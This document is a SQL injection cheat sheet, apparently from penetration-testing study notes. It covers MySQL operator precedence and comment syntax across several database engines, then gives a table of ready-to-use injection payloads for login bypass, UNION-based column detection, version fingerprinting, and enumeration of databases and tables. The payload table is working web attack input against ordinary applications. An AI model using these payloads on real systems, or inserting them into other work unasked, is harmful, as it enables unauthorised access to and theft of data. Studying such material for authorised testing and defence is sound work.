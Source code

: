 ## MySQL Operator Precedence
* Division (`/`), Multiplication (`*`), and Modulus (`%`)
* Addition (`+`) and Subtraction (`-`)
* Comparison (`=`, `>`, `<`, `<=`, `>=`, `!=`, `LIKE`)
* NOT (`!`)
* AND (`&&`)
* OR (`||`)

## MySQL Comments
```sql
#comment
-- comment     [Note the space after the double dash]
/*comment*/
/*! MYSQL Special SQL */

PostgreSQL
--comment
/*comment*/

MSQL
--comment
/*comment*/

Oracle
--comment

SQLite
--comment
/*comment*/

HQL
HQL does not support comments
```

## SQL Injection
| **Description** | **Payload** |
|----------------|-------------|
| **Auth Bypass** |  |
| Basic Auth Bypass | `admin' or '1'='1` |
| Basic Auth Bypass With comments | `admin')-- -` |
| **Union Injection** |  |
| Detect number of columns using `order by` | `' order by 1-- -` |
| Detect number of columns using Union injection | `cn' UNION select 1,2,3-- -` |
| Basic Union injection | `cn' UNION select 1,@@version,3,4-- -` |
| Union injection for 4 columns | `UNION select username, 2, 3, 4 from passwords-- -` |
| **DB Enumeration** |  |
| Fingerprint MySQL with query output | `SELECT @@version` |
| Fingerprint MySQL with no output | `SELECT SLEEP(5)` |
| Current database name | `cn' UNION select 1,database(),2,3-- -` |
| List all databases | `cn' UNION select 1,schema_name,3,4 from INFORMATION_SCHEMA.SCHEMATA-- -` |
| List all tables in a specific database | `cn' UNION select 1,TABLE_NAME,TABLE_SCHEMA,4 from INFORMATION_SCHEMA.TABLES where table_schema='dev'-- -` |